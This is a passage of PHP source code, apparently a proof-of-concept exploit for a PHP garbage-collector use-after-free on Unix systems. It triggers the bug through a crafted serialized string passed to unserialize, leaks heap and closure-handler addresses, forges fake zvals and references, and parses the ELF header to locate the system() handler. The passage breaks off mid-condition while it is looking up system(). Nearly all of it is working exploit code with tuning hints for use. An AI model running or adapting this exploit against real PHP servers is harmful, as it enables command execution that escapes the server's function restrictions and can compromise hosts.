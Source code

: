 ```php
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if you get segfaults

    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_repeat('A', 79);

    $poc = 'a:4:{i:0;i:1;i:1;a:1:{i:0;O:4:"ryat":2:{s:4:"ryat";R:3;s:4:"chtg";i:2;}}i:1;i:3;i:2;R:5;}';
    $out = unserialize($poc);
    gc_collect_cycles();

    $v = [];
    $v[0] = ptr2str(0, 79);
    unset($v);
    $abc = $out[2][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
```